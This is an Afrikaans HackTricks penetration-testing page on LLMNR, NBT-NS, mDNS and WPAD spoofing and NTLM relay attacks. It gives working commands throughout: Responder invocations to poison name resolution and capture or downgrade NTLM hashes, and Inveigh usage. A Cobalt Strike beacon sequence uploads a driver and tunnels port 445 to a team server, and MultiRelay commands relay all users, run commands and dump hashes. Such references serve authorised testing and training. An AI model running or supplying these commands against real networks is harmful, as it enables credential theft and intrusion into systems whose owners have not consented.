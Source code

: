 # Spoofing LLMNR, NBT-NS, mDNS/DNS en WPAD en Relay-aanvalle

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Netwerkprotokolle

### Plaaslike Gasoplossingsprotokolle
- **LLMNR, NBT-NS, en mDNS**:
- Microsoft en ander bedryfstelsels gebruik LLMNR en NBT-NS vir plaaslike naamoplossing wanneer DNS misluk. Op soortgelyke wyse gebruik Apple- en Linux-stelsels mDNS.
- Hierdie protokolle is vatbaar vir onderskepping en vervalsing as gevolg van hul ongeauthentiseerde, uitsaai-aard oor UDP.
- [Responder](https://github.com/lgandx/Responder) kan gebruik word om dienste te impersoneer deur vervals reaksies na gasheer wat hierdie protokolle ondersoek, te stuur.
- Verdere inligting oor diensimpersonasie met behulp van Responder kan hier gevind word [hier](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Ontdekkingsprotokol (WPAD)
- WPAD maak dit vir webblaaier moontlik om proksi-instellings outomaties te ontdek.
- Ontdekking word fasiliteer via DHCP, DNS, of terugval na LLMNR en NBT-NS as DNS misluk.
- Responder kan WPAD-aanvalle outomatiseer deur kliënte na skadelike WPAD-bediener te rig.

### Responder vir Protokolvergiftiging
- **Responder** is 'n instrument wat gebruik word vir die vergiftiging van LLMNR, NBT-NS, en mDNS-navrae, selektief reageer op navraagtipes, wat hoofsaaklik op SMB-dienste teiken.
- Dit kom voorafgeïnstalleer in Kali Linux, aanpasbaar by `/etc/responder/Responder.conf`.
- Responder wys opgevangde hase op die skerm en stoor dit in die `/usr/share/responder/logs`-gids.
- Dit ondersteun beide IPv4 en IPv6.
- Windows-weergawe van Responder is beskikbaar [hier](https://github.com/lgandx/Responder-Windows).

#### Uitvoering van Responder
- Om Responder met verstekinstellings uit te voer: `responder -I <Interface>`
- Vir meer aggressiewe deursnuffeling (met potensiële newe-effekte): `responder -I <Interface> -P -r -v`
- Tegnieke om NTLMv1-uitdagings/reaksies vir makliker kraak vas te vang: `responder -I <Interface> --lm --disable-ess`
- WPAD-impersonasie kan geaktiveer word met: `responder -I <Interface> --wpad`
- NetBIOS-navrae kan na die aanvaller se IP opgelos word, en 'n outentiseringsproksi kan opgestel word: `responder.py -I <interface> -Pv`

### DHCP-vergiftiging met Responder
- Die vervalsing van DHCP-reaksies kan 'n slagoffer se roetinligting permanent vergiftig, wat 'n meer heimlike alternatief vir ARP-vergiftiging bied.
- Dit vereis presiese kennis van die teiken-netwerk se konfigurasie.
- Uitvoering van die aanval: `./Responder.py -I eth0 -Pdv`
- Hierdie metode kan effektief NTLMv1/2-hase vasvang, maar dit vereis sorgvuldige hantering om netwerk-onderbreking te vermy.

### Vasvang van geloofsbriewe met Responder
- Responder sal dienste impersoneer deur die bogenoemde protokolle te gebruik, geloofsbriewe vasvang (gewoonlik NTLMv2-uitdaging/reaksie) wanneer 'n gebruiker probeer om teen die vervals dienste te outentiseer.
- Pogings kan aangewend word om af te gradeer na NetNTLMv1 of ESS te deaktiveer vir makliker geloofsbriewe-kraak.

Dit is noodsaaklik om daarop te let dat die gebruik van hierdie tegnieke wettig en eties gedoen moet word, met behoorlike magtiging en om ontwrigting of ongemagtigde toegang te vermy.

## Inveigh

Inveigh is 'n instrument vir penetrasietoetsers en rooi spanne, ontwerp vir Windows-stelsels. Dit bied funksionaliteite soortgelyk aan Responder, wat vergiftiging en man-in-die-middel-aanvalle uitvoer. Die instrument het geëvolueer vanaf 'n PowerShell-skrip na 'n C# binêre, met [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) en [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) as die hoofweergawes. Gedetailleerde parameters en instruksies kan gevind word in die [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh kan bedryf word deur PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Of uitgevoer as 'n C# binêre lêer:
```bash
Inveigh.exe
```
### NTLM Relay Aanval

Hierdie aanval maak gebruik van SMB-verifikasiesessies om toegang tot 'n teikengreep te verkry, wat 'n stelselshell verleen indien suksesvol. Belangrike voorvereistes sluit in:
- Die verifiserende gebruiker moet plaaslike administrateurtoegang op die gerelayde gasheer hê.
- SMB-ondertekening moet gedeaktiveer wees.

#### 445 Poort Deurvorsing en Tonnelering

In scenario's waar direkte netwerkintroduksie nie uitvoerbaar is nie, moet verkeer op poort 445 deurgevoer en getonnel word. Gereedskap soos [**PortBender**](https://github.com/praetorian-inc/PortBender) help om poort 445-verkeer na 'n ander poort om te lei, wat noodsaaklik is wanneer plaaslike administrateurtoegang beskikbaar is vir drywerbelading.

PortBender-opstelling en -werking in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Ander gereedskap vir NTLM Relay-aanval

- **Metasploit**: Stel op met proksies, plaaslike en afgeleë gasheerbesonderhede.
- **smbrelayx**: 'n Python-skrip vir die relaying van SMB-sessies en die uitvoering van bevele of die implementering van agterdeure.
- **MultiRelay**: 'n instrument uit die Responder-pakket om spesifieke gebruikers of alle gebruikers te relay, bevele uit te voer, of hase te dump.

Elke gereedskap kan gekonfigureer word om deur 'n SOCKS-proksi te werk indien nodig, wat aanvalle selfs met indirekte netwerktoegang moontlik maak.

### MultiRelay-bedryf

MultiRelay word uitgevoer vanaf die _**/usr/share/responder/tools**_ gids, wat spesifieke IP-adresse of gebruikers teiken.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Dwang NTLM Aanmeldings

In Windows **kan jy dalk sommige bevoorregte rekeninge dwing om aan te meld by willekeurige masjiene**. Lees die volgende bladsy om te leer hoe:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Verwysings
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
